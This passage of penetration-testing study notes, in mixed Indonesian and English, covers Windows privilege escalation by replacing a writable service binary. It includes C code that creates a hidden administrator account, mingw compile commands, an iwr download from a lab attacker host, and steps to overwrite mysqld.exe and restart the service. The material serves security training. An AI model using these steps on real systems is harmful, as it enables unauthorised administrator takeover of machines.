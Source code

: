 MASK	PERMISSIONS
F	Full access
M	Modify access >> READ WRITE EXECUTE DELETE
RX	Read and execute access
R	Read-only access
W	Write-only access
https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls

Note: **the only difference between full access and modify was ownership changing.**


>> Liat group dan permissionnya. 
>> Kalo user kita belongs to the group yang punya akses kyk **Write (W)** or **Full Access (F)** or **Modify (M)**, HAJAR.
>> Kalo kita cuma punya **Read and Execute (RX)**, CHECK DLL HIJACKING
>> check `whoami /groups`

3. Sama kyk linux, kalo kita punya full akses ke service yg dijalanin, kita tinggal timpa binarynya sama malicious binary dan restart servicenya.

ex: Malicious binary (harusnya bisa pake msfvenom aja sih)
```c (adduser.c)
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
4. Compile since kita tau targetnya 64bit pake ini
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
Note: kalo 32bit pake ini, i686-w64-mingw32-gcc

5. Transfer binarynya dan timpa ke lokasi servicenya
```cmd
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
6. Tinggal stop dan start lagi
```cmd
Stop-Service mysql
Start-Service mysql
or 
Restart-Service mysql
or
net stop mysql
net start mysql
```
>> KALO DENIED GMN? This is expected as most services are only managed by administrative users.
>> **If the service Startup Type is set to "Auto", we may be able to restart the service by rebooting the machine.**
